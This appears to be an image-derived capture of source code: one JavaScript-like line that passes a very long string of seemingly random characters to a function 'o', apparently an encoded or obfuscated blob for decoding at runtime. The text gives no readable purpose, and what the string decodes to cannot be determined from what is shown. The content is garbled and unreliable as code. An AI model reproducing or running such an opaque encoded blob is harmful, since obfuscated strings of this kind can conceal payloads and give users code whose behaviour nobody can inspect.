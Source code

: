 a=o(e,"CV(&}hkElxDwU,e7UE&E,VkUdDyD&,,lE&qU,,l}V7wkh}wk}keVw7}x7D}U(Xw,k&7(xD((,>kx7kxe(D,VkwyUxl&U,,&(f(Dx}(x7heMxw&}heElke7wDhxD,khV,wVhUekx(&}Dwh77hx,(EU7kw7}xDVh,xkwV}xD77,,kw*ED7Bk,DE(>xDEhVDllVV;w&h&D7kEV7w&heelx}&kD,kV7Ex7(x,Vk,7kxUVE,wk,VkxUyxDU&U,EE(-wwwllVEkh(UeHEEVlUV}UwxhEeUlE((wwx}&VU&k&m}k(6Exh&nUwk}(<,}kU:(xe}xeVE,,(llhm,l}lelEwVkwV}Dc,D7hxD}kE(7wE(EUxhD7hxt(xeyle&EUekEwxEU}}UU&U,Dk7XDDh&eelle(UUkhlehl,Vlw&}eeExVhxe7le(VEE}h7kxh&lUDhDWlxe&UxU&,U7kDXhxehDmhD7}Ve&l(UxEkVkwE}xe}E7Vl,}E7(xwwh,7U}&7Vx/&xU&he7xx(},7ExD&7UU((7ehlVx,DElV}D7&wxh}(e(llVhwn}we}x(hw7&&e*eU(hlO%lD&(UehE7,k&*&xk&VUUkh(1,ekhw7D(}D,(}(e&EhVvDw}}7DD,h9e&&xKEw}}wwUk)e7lD(hwek,(&U7kUw&lV(U,kklWDDxaEDe&D,hE6AxUxEhVEkDhVxxllVED7_h,&lw(7x<(&U&hk7VlU(hellDVkU&kxe}Dlg(D&&h,tkwm}DeEUJwD&}wwUl}KUEU(LD7}DehEe&w7wl,V,E&h,7w}}#&U&hDUEEE7Dxh&+UxEk&(UxkEBDw(7}U(E&V&w&7wUlEk( wx}w,7l,(EwEhl7(hk7llx(}w7hl.&Ulkk1DDkelDwE&7wkw:,xe&x,}k,(l,kE UExU7,UIllVPl*&xw&}eexl(&eeEl7(#wUk}D,lIe&lk&7/xx,(,Uek7mxxE7V,DEkU(l,&wD(hwVlDk}lekED,xl((&whhyewl}}dewxh(EUxklD7hw7UDe(7UDkh7eDUED=(xw}le(kDVkh7(EeDl(o7Dwh&xUk}(wUfhUelxK&(E}(VUVEh7}l7(DU&Ex&U,}kV7,Dh&&,wEEw7xJ(lxOheAeDk}eexEwV&wwa&U(leVxwwh,wUk(e7lD(hweED&kU7h,7lD(}&l}hk7wDE7Mx,&,7sEpnwDk&77}xl(VU}k,U7lU&VU7hefVD}gUUxl&&VUUh77&x=&kUek7g&x}&ex,hE,_kw;kx7h?V(Dw}lx}hE9wDl}wxw&e7EUVhhehlk(EUV}7Dxx((eED}h7&hDV&,{he5zxe&(xV&D7tk,KlD&&UeDwl}z,xlk(>Dlh}x,}R7xU&hEeEll(xU&hVDwEk(}lw}}yVl7&VU7k&U(kw(Exe&x,}k,(exVkVVhDwh&,,lh(VDDhrx7}(7wUhhxexlD(wUhh&D,xk&(Ee}x7EheVE,}k(3}D(&kxh&e,UEVLUDE}67*wk}J,,EDeElDVDwhhcexDh}e7ellgVUlk(7hx&(UxE&lUDkh;cxxhwV(DU}(lehVVxDVVVU&}},7EDV&U7lEVEw(}UD&kk(ewkg7e(}helD,hw7}xw&}UEkw7Ux}&(,l(,,kEx2xD}&7,ll,}7xEkUV(D,X&UkleVklk}Vwxh}e7ll}wphle(&U7hU7l}eV7xkV7U(Ew}h,xkxMDDw}h,&(,Vkw(7eUxEE,exEh}e(l}((wkVhwUhx7wlU(EU(hw_DUwhwFExhewDeEk7ekeVEDV&U,EEo(U,xl&VeDe}ee(lx,Vx7}UehxV(VU(hUUjkV7&le(xU(lh(w,&(UwEED}(UD&De(k,2lD&&Ueww(hA,7lhV7kE&x,elD(hwEhl7kx(7VD7(}w7hD7&D((EA}DV&,UU(e=eDEe7,(EDB(hw7ewElVVhDh}keElV47kxh(ee&Dnhw&VD,&x^VeU*he7(hV7DxE(,Ulk&7Uwk}lV9xl0lD,&w,kEVoDwkE,VEDD}leVhwV7wE}Dekleeex((VwUhE7Gx,kx7,xV(DU7kxwkl&VDDe&xe(kUuED(&wehD,}&e(EhUwx(}(e7lw,(DqhUe}lUV,lw&Vwehx7}l,&x7(xeeEwUkUJkxleeDwkxV&xwgUwM&7,DEhsew7EwVVD,&&7nEe(Vwlh77(hE7DlD(hUNhxY}Uxhx7Ex&exDkk *kDVAEDU&D,hET6xUhkeV&wlho,D&}_(we}keeE7e,x((Awwhke7xxV&,(xe&E,&E&whl}&,U7EV,&EhWkDV&U,hE7h&exlV.7khVVDx}lelxkVwwkhVeDxkhkeelx&(w7Vh,klU(x,hkw9xDwe,wUEUXVDl}&,,}Ve}E}m7DD}&7DDUhxx,k,(&w(}D7ll}7Vx&(}w7hD7&D7hU7&x7(wUw}K7DDkOkw(&x,}k7olwwlVVVwEhVewllUexU}Ue}llVkweh}e,l((DUD(x,}hU7Ex((w,UxeV(,}(_e&Dw&&lU(77kD(}hx&hx2ew,YlwV}Ue}E7VD(lUh},lx(UwUhE7(lw&l7}x,(e,(k/wkEx}VUx&x,,kUYED(&w7EDE}&e&E}VDkk(,ehE,VEl}(&wEh(e,eex(&rwehh7(x(UllE7wxk&VUDEh&D,lEUw7l:}EehE}VDw}7UU,}}U,E9(x7&lEVEwlhx7&lV,wU}kBDUEE(hlU}h=(xL&(,Bk}U&kUR,x7&D,hke(&eVExUlle}EeEEweklkVxw}}7elx(heeD}(1hU,hhUhkk7lx&(eUElD&d,(khwUE7}EU7&7,7E(),Dl}VeUw}}(xwhe(kDeVeUhhVeUlE(JUex((}UUhUKx}wZE,}k77lDE&x,U&D,,k,^lD&&U7xl,}}ewEeVhkE(D7(EDeDx&V,wlh&eUx7kh7hxw&hU7kUw(Ek&kUxkEuEx,}&U7&Ueek7iDDh&e7}D&}VxlhkVEw,h,x7h,V,wVhw7Dlk(eEE(}D,Ew(k,:k(y}D&>VD&&}U7kDj&DeEUN&Dw&7x&hkVeDkVkwl}xe}E7Vl,}l}(4U8kkDlkw&&ww(w,<he7xx}(,e(l}&DUwkwe&wV&llehVVxDVVVU&}},7EDV&w,lhVwwD},D&kV(VwhhU7Dle(7UxkxwVE7&+U7E(G}x}}(,lEk,kl(3xD}&7,lx}hVexllVkwe}lxel,VUw}3D,_lx(EU(hk7e}l7xx,(UUEk(7wDlkefExk&},}kxUVl}}U,}}}ehEEV(D,}k77l7&x,&&w7,D>{,wekk7VlU(EU0kw&kUekh7DxeewDlE_#DxU}hl,hV7xEh&VDl}&,eEE&&ewEwVkwP%EUDx(VDE&}kDx}UjhU7k&7&x}&hU7h,wEDN&Ullh&tVkl(V,ekUyeDU}mx7}l7kEwVkwV}D7kD7hwD}k&V7wkhU7Zxl&}U}ks6(},VU,UkV-lD&&,DVh&,}k7{DD&hxVkwV}wUwElVVDl&E7&lUVeweh(7xkx(hwwhk7(xk!},(k,1kkkZ7xx&}U7kl(V,VEwU(x4}Vedl&VhDhh&exlE,{l}V7wlk7ewlk(VwDE,(&UxhUplxUehll}VRwx7(7,#EV0wxx7&,UElU}l7&,D}h,VDDl}DelEU,wl}(DwEh(e,lk}x7xx(((U}hwwVk,&w,khe7wxe!hDV&l,&kekU4UD<}UEl(kDw}keVED}EeElUVEwehUex}e((w,(S,DDm(Dw7}et,Eh0V,hEx,VE&{}x7&D,&le}BeLEwVwk&(keeEkekllVxw}}7elxkk}eUlh&(UUhlDehw7wxD(eUxk}7,wlkD/UhE(lx7&7e(E(-,Dl}V7EDk}weBk,VDwD}w7Vx}e7xE((w,hl7Vx7k,7hle&w,hh,mxh((_UwEhIEDx}lDk}k,xE}!7DlkEe4xEf(Uhl,Vhlh(ewlh&eelE&Um/lx(U,hVE,}xx&EUkkx=Uh}VE,7kE,EEe>DDh}N,xx}&eeDEU((U(d}UhEwVlU}hD7lxD7&xx(kUVhU7hDekw1&xx(7UlE}wwl}&ke}EUVhE}&iDE}(,,Ek(he7lx(hw,}wDVxV(Ewk}e7Ull&VExkw7lxk&Vloh,7whV&l,SEhVVx,&EleEV xwV&7D&}EewEDVhw+}x7}wxhE7w&e77Ukk}7&xx&&x(&EUhkn7wx}&e